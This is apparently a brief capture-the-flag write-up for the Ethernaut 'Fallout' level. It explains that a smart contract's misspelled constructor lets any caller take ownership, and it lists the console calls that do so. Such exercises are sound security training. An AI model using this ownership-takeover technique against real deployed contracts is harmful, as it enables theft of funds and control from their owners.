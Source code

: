 In this contract the contructor is simply misspelled due to developer error, therfore I can call it myself and gain ownership as ```msg.sender```

Call the function.
```contract.fal1out()```

Check ownership has transfered to me.
```contract.owner()```

Check my address to confirm.
```player```